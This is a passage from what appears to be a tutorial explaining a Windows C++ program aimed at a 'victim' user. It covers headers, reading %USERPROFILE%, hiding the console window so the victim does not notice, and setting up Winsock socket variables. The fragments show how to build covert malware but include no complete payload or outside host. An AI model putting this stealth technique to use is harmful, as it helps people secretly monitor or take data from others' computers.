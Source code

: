 Explanation: Here we have included some header files. These are:

* **iostream:** includes standard input/output utilities
* **winsock2.h:** includes networking utilities
* **stdio.h:** includes standard input/output utilities (needed for perror())
* **stdlib.h:** includes standard input/output utilities
* **dirent.h:** includes directory utilities
* **string:** includes string utilities

#### Snippet 4:

```cpp
char* userDirectory() {
    char* pPath;
    pPath = getenv("USERPROFILE");

    if (pPath!=NULL) {
        return pPath;
    }
    else {
        perror("");
    }
}
```

Explanation: This function gets the value of %USERPROFILE% environment variable.

Information: The %USERPROFILE% variable contains the path of the user profile folder we have access to (a.k.a. the victim user).

And that's the reason we have set the name of this function as userDirectory, since it returns the path of the user's directory with which this program would be running as!

#### Snippet 5:

```cpp
ShowWindow(GetConsoleWindow(), SW_HIDE);
```

Explanation: To hide the program window so that it's not obvious to the victim that this program is running!

#### Snippet 6:

```cpp
WSADATA WSAData;
SOCKET server;
SOCKADDR_IN addr;
```

Explanation: The above code snippet declares 3 variables of different types:

* **WSADATA:** This data type (it's a struct) holds information about windows socket implementation.
* **SOCKET:** This data type stores the connection of the SOCKET type.
* **SOCKADDR\_IN:** This data type (it's a struct) holds the details of socket connection. This must make clear what the purpose of the variables mentioned in the above snippet would be.
